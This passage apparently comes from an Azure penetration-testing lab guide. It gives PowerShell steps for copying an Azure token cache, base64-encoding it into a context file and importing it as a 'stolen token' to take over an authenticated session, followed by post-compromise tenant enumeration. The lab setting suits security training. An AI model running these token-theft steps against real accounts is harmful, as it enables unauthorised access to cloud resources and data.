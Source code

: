 ```text
PS> mkdir C:\Temp
PS> Save-AzContext –Path C:\Temp\AzureAccessToken.json
PS> mkdir “C:\Temp\Live Tokens”

Open Windows Explorer and type %USERPROFILE%\.Azure\ and hit enter
• Copy TokenCache.dat & AzureRmContext.json to C:\Temp\Live Tokens
• Now close your authenticated PowerShell window!

Delete everything in %USERPROFILE%\.azure\
• Start a brand new PowerShell window and run:
PS> Import-Module Az
PS> Get-AzContext -ListAvailable
• You shouldn’t see any available contexts currently

• In your PowerShell window let’s manipulate the stolen TokenCache.dat and AzureRmContext.json files so we can import it into our PowerShell session

PS> $bytes = Get-Content "C:\Temp\Live Tokens\TokenCache.dat" -Encoding byte
PS> $b64 = [Convert]::ToBase64String($bytes)
PS> Add-Content "C:\Temp\Live Tokens\b64-token.txt" $b64

• Now let’s add the b64-token.txt to the AzureRmContext.json file.
• Open the C:\Temp\Live Tokens folder.
• Open AzureRmContext.json file in a notepad and find the line near the end of the file title “CacheData”. It should be null.
• Delete the word “null” on this line
• Where “null” was add two quotation marks (“”) and then paste the contents of b64-token.txt in between them.
• Save this file as C:\Temp\Live Tokens\StolenToken.json
• Let’s import the new token

PS> Import-AzContext -Profile 'C:\Temp\Live Tokens\StolenToken.json’

• We are now operating in an authenticated session to Azure

PS> $context = Get-AzContext
PS> $context.Account

• You can import the previously exported context (AzureAccessToken.json) the same way

# Azure situational awareness
• GOAL: Use the MSOnline and Az PowerShell modules to do basic enumeration of an Azure account post-compromise.
• In this lab you will authenticate to Azure using your Azure AD account you setup. Then, you will import the MSOnline and Az PowerShell modules and try out some of the various modules that assist in enumerating Azure resource usage.

• Start a new PowerShell window and import both the MSOnline and Az modules
    PS> Import-Module MSOnline
    PS> Import-Module Az
• Authenticate to each service with your Azure AD account:
    PS> Connect-AzAccount
    PS> Connect-MsolService
• First get some basic Azure information 
    PS> Get-MSolCompanyInformation
• Some interesting items here are
   ◇ UsersPermissionToReadOtherUsersEnabled
   ◇ DirSyncServiceAccount
   ◇ PasswordSynchronizationEnabled
   ◇ Address/phone/emails
• Next, we will start looking at the subscriptions associated with the account as well as look at the current context we are operating in. Look at the “Name” of the subscription and context for possible indication as to what it is associated with.
```